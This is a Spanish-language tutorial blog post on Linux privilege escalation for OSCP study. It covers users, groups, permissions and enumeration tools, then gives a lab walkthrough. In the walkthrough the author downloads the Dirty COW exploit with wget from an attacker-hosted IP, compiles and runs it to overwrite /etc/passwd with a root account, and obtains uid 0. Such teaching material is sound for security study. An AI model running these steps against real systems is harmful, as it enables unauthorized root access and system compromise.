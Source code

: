 ```yaml
---
layout: single
title:  Escalada de Privilegios en Linux
excerpt: "En este post se presentará distintas maneras de poder conseguir el usuario administrador(root) del sistema partiendo de un usuario con pocos privilegios"
date: 2021-07-19
classes: wide
header:
    teaser: /assets/images/que-es-un-socket-y-como-funciona/portada.png
    teaser_home_page: true
categories:
    - Explicaciones
tags:
    - Linux
    - OSCP
---
```


El objetivo final con la escalada de privilegios en Linux es obtener un shell ejecutándose como usuario root.  
La escalada de privilegios puede ser simple (por ejemplo, un exploit de kernel) o requerir mucho reconocimiento sobre el sistema comprometido.  
En muchos casos, la escalada de privilegios puede no depender simplemente de una mala configuración, pero puede requerir que piense y combine múltiples configuraciones erróneas.   

### Usuarios
• Las cuentas de usuario se configuran en el archivo /etc/passwd.  
• Los hash de contraseña de usuario se almacenan en el archivo /etc/shadow.  
• Los usuarios se identifican mediante un ID de usuario entero (UID).  
• La cuenta de usuario "root" es un tipo especial de cuenta en Linux, tiene un UID de 0 y el sistema otorga a este usuario acceso a cada archivo.  

### Grupos
• Los grupos se configuran en el archivo /etc/group.    
• Los usuarios tienen un grupo principal y pueden tener varios grupos secundarios (o complementarios).  
• De forma predeterminada, el grupo principal de un usuario tiene el mismo nombre como su cuenta de usuario.  

### Archivos y directorios
• Todos los archivos y directorios tienen un solo propietario y un grupo.    
• Los permisos se definen en términos de lectura, escritura y ejecución.  
• Hay tres conjuntos de permisos, uno para el propietario, otro para el grupo, y uno para todos los "otros" usuarios.  
• Solo el propietario puede cambiar los permisos.

### Permisos de archivos
• Leer: se puede leer el contenido del archivo.  
• Escritura: el contenido del archivo se puede modificar.  
• Ejecutar: el archivo se puede ejecutar (es decir, ejecutar como algún tipo de proceso).  

### Herramientas que automatizan la enumeracion
[- LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS "LinPeas")  
[- LinEnum](https://github.com/rebootuser/LinEnum "LinEnum")  
[- LinuxPrivChecker](https://github.com/linted/linuxprivchecker "LinuxPrivChecker")  

--------
--------


## Exploits de kernel
Verificar la version del kernel
```bash
$ uname -a
Linux parrot 5.7.0-2parrot2-amd64 #1 SMP Debian 5.7.10-1parrot2 (2020-07-31) x86_64 GNU/Linux
$ cat /proc/version
Linux version 5.7.0-2parrot2-amd64 (team@parrotsec.org) (gcc version 9.3.0 (Debian 9.3.0-15), GNU ld (GNU Binutils for Debian) 2.34.90.20200706) #1 SMP Debian 5.7.10-1parrot2 (2020-07-31)
```
#### Escalada de Privilegios:
• [LinuxPrivChecker](https://github.com/linted/linuxprivchecker)  
• Searchsploit "linux kernel"  
• [LinuxExploitSuggester2](https://github.com/jondonas/linux-exploit-suggester-2)  

### Ejemplo:
```bash
user@debian:~$ cat /proc/version                                                                                                                  
Linux version 2.6.32-5-amd64 (Debian 2.6.32-48squeeze6) (jmm@debian.org) (gcc version 4.3.5 (Debian 4.3.5-4) ) #1 SMP Tue May 13 16:34:35 UTC 2014
user@debian:~$ perl linux-exploit-suggester-2.pl                                        
                                                                                        
  #############################                                                         
    Linux Exploit Suggester 2  
  #############################      
                                                                                        
  Local Kernel: 2.6.32                                                                  
  Searching 72 exploits...                                                              
                                                                                        
  Possible Exploits                                                                     
  [1] american-sign-language                                                            
      CVE-2010-4347                                                                     
      Source: http://www.securityfocus.com/bid/45408                                    
  [2] can_bcm                                                                           
      CVE-2010-2959                                                                     
      Source: http://www.exploit-db.com/exploits/14814                                  
  [3] dirty_cow                                                                         
      CVE-2016-5195                                                                     
      Source: http://www.exploit-db.com/exploits/40616                                  
  [4] exploit_x                                                                         
      CVE-2018-14665                                                                    
      Source: http://www.exploit-db.com/exploits/45697                                  
  [5] half_nelson1                                                 
      Alt: econet       CVE-2010-3848                                                   
      Source: http://www.exploit-db.com/exploits/17787                                  
  [6] half_nelson2                                                 
      Alt: econet       CVE-2010-3850                                                   
      Source: http://www.exploit-db.com/exploits/17787                                  
  [7] half_nelson3                                                 
      Alt: econet       CVE-2010-4073                              
      Source: http://www.exploit-db.com/exploits/17787                                  
  [8] msr                                                          
      CVE-2013-0268                                                
      Source: http://www.exploit-db.com/exploits/27297                                  
  [9] pktcdvd                                                      
      CVE-2010-3437                                                
      Source: http://www.exploit-db.com/exploits/15150                                  
  [10] ptrace_kmod2                                                
      Alt: ia32syscall,robert_you_suck       CVE-2010-3301                              
      Source: http://www.exploit-db.com/exploits/15023                                  
  [11] rawmodePTY                                                  
      CVE-2014-0196                                                
      Source: http://packetstormsecurity.com/files/download/126603/cve-2014-0196-md.c   
  [12] rds                                                         
      CVE-2010-3904                                                
      Source: http://www.exploit-db.com/exploits/15285                                  
  [13] reiserfs                                                    
      CVE-2010-1146                                                
      Source: http://www.exploit-db.com/exploits/12130                                  
  [14] video4linux                                                 
      CVE-2010-3081                                                
      Source: http://www.exploit-db.com/exploits/15024    
      

user@debian:~$ wget http://10.9.102.237:8000/dirty.c                                                                                                                  
--2021-07-20 16:34:58--  http://10.9.102.237:8000/dirty.c                        
Connecting to 10.9.102.237:8000... connected.                                        
HTTP request sent, awaiting response... 200 OK                            
Length: 5006 (4.9K) [text/plain]                                                                                                                                                                 
Saving to: “dirty.c”                                                                                                                                                                             
100%[==================================================================================================================================================>] 5,006       --.-K/s   in 0.002s        

2021-07-20 16:34:59 (2.58 MB/s) - “dirty.c” saved [5006/5006]                                                                                                                     
user@debian:~$ cat dirty.c |grep "gcc"                                                                                                                                           
//   gcc -pthread dirty.c -o dirty -lcrypt                                                                                                                             
user@debian:~$ gcc -pthread dirty.c -o dirty -lcrypt                                                                                                                             
user@debian:~$ ls                                                  
dirty  dirty.c  linux-exploit-suggester-2.pl  myvpn.ovpn  tools                                                                       
user@debian:~$ ./dirty                                             
/etc/passwd successfully backed up to /tmp/passwd.bak                                                                                 
Please enter the new password:                                     
Complete line:                                                     
firefart:fiigc/T49TCJk:0:0:pwned:/root:/bin/bash                                                                                      

mmap: 7f15662f0000                                                 

ptrace 0                                                           
Done! Check /etc/passwd to see if the new user was created.                                                                           
You can log in with the username 'firefart' and the password 'pass123'.                                                               

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd                                                                             
Done! Check /etc/passwd to see if the new user was created.                                                                           
You can log in with the username 'firefart' and the password 'pass123'.                                                               
DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd                                                                             

user@debian:~$ cat /etc/passwd                                     
firefart:fiigc/T49TCJk:0:0:pwned:/root:/bin/bash                          
/sbin:/bin/sh                                                      
bin:x:2:2:bin:/bin:/bin/sh                                         
sys:x:3:3:sys:/dev:/bin/sh                                                
sync:x:4:65534:sync:/bin:/bin/sync                                        
games:x:5:60:games:/usr/games:/bin/sh                              
man:x:6:12:man:/var/cache/man:/bin/sh                              
lp:x:7:7:lp:/var/spool/lpd:/bin/sh                                        
mail:x:8:8:mail:/var/mail:/bin/sh                                  
news:x:9:9:news:/var/spool/news:/bin/sh                            
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh                          
proxy:x:13:13:proxy:/bin:/bin/sh                                   
www-data:x:33:33:www-data:/var/www:/bin/sh                                
backup:x:34:34:backup:/var/backups:/bin/sh                                
list:x:38:38:Mailing List Manager:/var/list:/bin/sh                       
irc:x:39:39:ircd:/var/run/ircd:/bin/sh                             
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh   
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh                          
libuuid:x:100:101::/var/lib/libuuid:/bin/sh                        
Debian-exim:x:101:103::/var/spool/exim4:/bin/false                        
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin                         
user:x:1000:1000:user,,,:/home/user:/bin/bash                      
statd:x:103:65534::/var/lib/nfs:/bin/false                         
mysql:x:104:106:MySQL Server,,,:/var/lib/mysql:/bin/false                 
user@debian:~$ su firefart                                         
Password:                                                          
firefart@debian:/home/user# id                                     
uid=0(firefart) gid=0(root) groups=0(root)                         


```




